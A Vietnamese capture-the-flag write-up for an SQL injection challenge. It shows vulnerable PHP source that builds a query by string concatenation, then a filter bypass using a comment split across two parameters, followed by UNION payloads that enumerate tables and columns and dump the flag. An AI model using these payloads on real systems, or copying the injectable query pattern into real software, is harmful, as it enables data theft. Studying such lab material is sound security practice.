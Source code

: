 # [CTF] sqli v1
## Solution
Source code:
```
<?php
require 'config.php';
// ?amount=10000&name=tivi
if (isset($_GET['amount']) && isset($_GET['name'])) {
    $amount = $_GET['amount'];
    $name = $_GET['name'];

    if (preg_match("/[a-zA-Z]|\'|\"/", $amount))
        die("amount must be a number!");

    if (preg_match("/[\"|\'|\`]/", $name)) 
        die("name must a string");

    $query = "select * from products where amount=".$amount." and name=\"".$name."\"";
    #echo $query;
}
else{
    show_source(__FILE__);
    exit();
}

?>
<!DOCTYPE html>
<html>
<head>
    <title>SQL injection</title>
</head>
<body>
    <table style="width:100%">
        <tr>
            <th>id</th>
            <th>name</th>
            <th>amount</th>
        </tr>
        <?php
            $result = $conn->query($query);
            if ($result->num_rows > 0) {
                while($row = $result->fetch_assoc()) {
                    echo "<tr>".
                    "<td>".$row["id"]."</td>".
                    "<td>".$row["name"]."</td>".
                    "<td>".$row["amount"]."</td>".
                    "</tr>";
                }
            } else {
                echo "0 results";
            }
        ?>
    </table> 
</body>
</html>
```
Như title, đây là 1 bài về sqli,truớc tiên ta check qua source code:
- có tất cả 2 param là ``amount`` và ``name`` đều có khả năng bị inject.
- Ở đây có 2 cái filter khá là chí mạng, nó lọc hết dấu ngoặc đơn và kép, ở param ``amount`` thì lọc cả letters
```
    if (preg_match("/[a-zA-Z]|'|\"/", $amount))
        die("amount must be a number!");

    if (preg_match("/[\"|'|`]/", $name)) 
        die("name must a string");
``` 
Ban đầu payload mình dùng là ``1|| 1=1-- -`` thì extract đuợc bảng products này, nhưng mà có vẻ flag không nằm ở đây.

![img](./img/Screenshot%20from%202022-03-04%2000-11-54.png)

Sau khi tra anh google 1 hồi thì có vẻ là có thể bypass thông qua kí tự ``\`` , kí tự này sẽ coi kí tự tiếp theo cụ thể là ``"`` là input và khiến cho cả phần sau: ``" and name`` cũng thuộc về input của param. Nhưng mà cách này không hiệu quả vì cái blacklist kia nó lọc cả letters nữa... Mình còn thử vận lộn với đủ loại trò như là toán tử bitwise, dùng ``~`` để reverse string, homoglyph attack, convert octal , blo bla đều không đưọc.. 

Cuối cùng,hóa ra còn 1 cách đáp ứng đưọc cái blacklist kia mà mình chưa thử, đấy là dùng ``multi-line comments`` :). Cụ thể payload sẽ là:

```
?amount=1/*&username=1*/ or 1=1 -- -
```
Thì query sẽ có dạng:
```
select * from products where amount=1 /* and name=*/ or 1=1 -- -
```
Tadda:

![img](./img/Screenshot%20from%202022-03-04%2000-20-24.png)

Việt cần làm bây giờ là chỉ còn là dump hết dữ liệu ra thoy

Extract database:
```
?amount=10000/*&name=*/ UNION SELECT 1,2,database() -- -
```
![img](./img/Screenshot%20from%202022-03-04%2000-24-18.png)

Extract tables: ()
```
?amount=10000/*&name=*/ UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema like 0x73716c696e6a656374696f6e -- -
```
![img](./img/Screenshot%20from%202022-03-04%2000-30-32.png)

Extract columns:
```
amount=10000/*&name=*/ UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name like 0x666c61677461626c656168696869686f686f  -- -
```
![img](./img/Screenshot%20from%202022-03-04%2000-32-43.png)

dump het ra thui:
```
?amount=10000/*&name=*/ UNION SELECT 1,2,group_concat(flag) FROM flagtableahihihoho -- -
```
![img](./img/Screenshot%20from%202022-03-04%2000-34-25.png)